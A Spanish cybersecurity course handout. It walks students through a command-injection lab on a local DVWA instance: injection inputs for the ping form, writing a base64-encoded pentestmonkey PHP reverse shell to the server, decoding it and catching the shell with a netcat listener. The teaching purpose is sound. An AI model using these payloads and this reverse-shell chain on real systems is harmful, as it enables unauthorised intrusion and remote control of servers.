 ```yaml
---
typora-copy-images-to: ../assets/img/fileupload
typora-root-url: ../../
layout: post
categories: tema4 Command Injection
title: Command Injection
conToc: false
author: Víctor Ponz
conToc: true
titlepage: true
titlepage-background: assets/img/riesgos.png
page-background:  assets/img/fondo-pagina.png
urlcolor: CornflowerBlue
linkcolor: black
toc-own-page: true
toc-title: Contenidos
header-left: UD 4. Command Injection
header-right: Ciberseguridad
footer-left: IES El Caminàs
footer-right: \thepage/\pageref{LastPage}
titlepage-rule-color: 1e2c37
header-includes: |
    \usepackage{lastpage} 
    \usepackage{awesomebox}
pandoc-latex-environment:
    noteblock: [note]
    tipblock: [tip]
    warningblock: [warning]
    cautionblock: [caution]
    importantblock: [important]
---
```


## Práctica - Command injection

> La inyección de comandos es un ataque en el que el objetivo es la ejecución de comandos arbitrarios en el sistema operativo host a través de una aplicación vulnerable. Los ataques de inyección de comandos son posibles cuando una aplicación pasa datos no seguros proporcionados por el usuario (formularios, cookies, encabezados HTTP, etc.) a un shell del sistema. En este ataque, los comandos del sistema operativo proporcionados por el atacante generalmente se ejecutan con los privilegios de la aplicación vulnerable. Los ataques de inyección de comandos son posibles en gran parte debido a una validación de entrada insuficiente.

En la **siguiente práctica** vamos a realizar un *reverse shell* mediante la inyección  de comandos desde un campo de texto de un formulario que no realiza una validación de entrada correcta.

Este es una variante del ataque **FileUpload** ya que persigue almacenar un fichero ejecutable con dicho reverse shell.

La máquina DVWA tiene un fallo de seguridad en la página [Command Injection](http://localhost:8080/vulnerabilities/exec/).

![Command Injection](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504191910879.png)

En este formulario se supone que el usuario puede poner una IP a la que hacerle ping. Para descubrir si es vulnerable a Command injection podemos introducir el siguiente comando:

```
127.0.0.1 ; ls
```

Lo que intentamos es que el servidor ejecute también el comando `ls` ya que suponemos que esta es la instrucción que realiza el `ping`

```php
 $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
```

y no comprueba si `$target` es una IP Válida.

**Los pasos son los siguientes:**

## Paso 1
Descarga el archivo del *reverse shell* desde esta [dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y guárdalo como `shell.php`

## Paso 2 
Edítalo y cambia la IP por la de tu equipo

![Reverse shell](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504175459944.png)


## Paso 3
Ahora vamos a codificarlo en [base 64](https://www.base64encode.org/.)  

   > **Nota**. Para que ocupe menos espacio es recomendable eliminar los comentarios 

## Paso 4
Nos aprovecharnos de la vulnerabilidad para crear un archivo en el servidor mediante la siguiente entrada en el formulario:

   ```
   127.0.0.1 ; echo "pega-aquí-el-código-en-base64" > shell.txt
   ```

   Con este comando estamos creando el archivo `shell.txt` con el código en base64.
   
## Paso 5
Decodificamos el código mediante la siguiente entrada

   ```
   127.0.0.1 ; cat shell.txt | base64 -d > shell.php
   ```

## Paso 6
Ya sólo nos queda ejecutar en el ordenador del atacante el comando `netcat`

    ```bash
    nc -v -n -l -p 1234
    ```

## Paso 7
Y quedarnos a la espera de una conexión entrante desde el ordenador de la víctima al visitar la url [localhost:8080/vulnerabilities/exec/shell.php](localhost:8080/vulnerabilities/exec/shell.php) del punto 5.

 ![Remote shell](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504193946369.png)


